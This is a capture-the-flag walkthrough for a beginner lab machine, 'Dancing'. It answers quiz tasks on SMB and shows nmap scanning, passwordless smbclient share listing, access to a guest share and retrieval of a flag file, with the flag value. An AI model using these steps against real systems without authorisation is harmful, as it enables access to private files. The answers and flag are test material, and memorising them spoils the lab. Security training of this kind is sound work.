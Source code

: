 # Dancing

- **Category**: Starting Point - Tier 0
- **Difficulty**: Very Easy
- **Tags**: Network, Protocols, SMB, Reconnaissance, Anonymous/Guest Access
- **Tools**: nmap, smbclient


# Walkthrough

## Task 1: What does the 3-letter acronym SMB stand for?

> **Answer**: Server Message Block

## Task 2: What port does SMB use to operate at?

> **Answer**: 445

## Task 3: What is the service name for port 445 that came up in our Nmap scan?

We can use the `-sV` flag to tell Nmap to probe for the service.

```bash
> nmap -sV -p 445 10.129.1.12
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-03 17:26 AEST
Nmap scan report for 10.129.1.12
Host is up (0.24s latency).

PORT    STATE SERVICE       VERSION
445/tcp open  microsoft-ds?

```

> **Answer**: microsoft-ds

## Task 4: What is the 'flag' or 'switch' we can use with the SMB tool to 'list' the contents of the share?

> **Answer**: -L

## Task 5: How many shares are there on Dancing?

We can use `smbclient` to figure this out, along with the `-L` flag.

We don't need to provide a password as we're attempting to show guest-browseable shares.

```bash
> smbclient -L 10.129.1.12
Password for [WORKGROUP\user]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        WorkShares      Disk      

```

> **Answer**: 4

## Task 6: What is the name of the share we are able to access in the end with a blank password?

> **Answer**: WorkShares

## Task 7: What is the command we can use within the SMB shell to download the files we find?

> **Answer**: get

# Submit Root Flag

```bash
> smbclient //10.129.1.12/WorkShares
Password for [WORKGROUP\user]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Jul  4 22:38:12 2023
  ..                                  D        0  Tue Jul  4 22:38:12 2023
  Amy.J                               D        0  Mon Mar 29 20:08:24 2021
  James.P                             D        0  Thu Jun  3 18:38:03 2021

                5114111 blocks of size 4096. 1748960 blocks available
smb: \> cd James.P
smb: \James.P\> ls
  .                                   D        0  Thu Jun  3 18:38:03 2021
  ..                                  D        0  Thu Jun  3 18:38:03 2021
  flag.txt                            A       32  Mon Mar 29 20:26:57 2021

                5114111 blocks of size 4096. 1748960 blocks available
smb: \James.P\> get flag.txt
getting file \James.P\flag.txt of size 32 as flag.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
smb: \James.P\> exit
> cat flag.txt
5f61c10dffbc77a704d76016a22f1664
```

> **Answer**: 5f61c10dffbc77a704d76016a22f1664
